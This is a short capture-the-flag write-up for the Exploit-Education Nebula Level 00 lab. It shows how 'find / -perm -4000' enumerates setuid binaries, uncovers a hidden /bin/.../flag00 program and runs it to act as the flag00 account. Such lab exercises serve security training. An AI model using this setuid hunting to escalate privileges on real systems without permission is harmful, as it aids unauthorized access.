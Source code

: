 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-12 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
author_profile: true

---
```

Exploit Education Level 0

### Challenge
This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.  

To access this level, log in as `level00` with the password of `level00`.

### Solution
We have to use find to find a file with setuser id bit set
    
    
```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less 
```
        
lets see what the parameters indicate
        
```
/               it asks find to look for files in root directory
-perm -4000     its is used to display all files with the setuserid set
2>/dev/null     gets rid of all error messages
```

```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/pis
/bin/ping6
/bin/su
/bin/umount
/sbin/mount.ecryptfs_private
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
```

we can see a file named `flag00`. lets investigate 

```
level00@nebula:/$ cd /bin/.../
level00@nebula:/bin/...$ ls -la
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00
```

we can see that the `setuserid` bit is set for `flag00`. lets run it
```
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ getflag
You have successfully executed getflag on a target account
```

### Solved!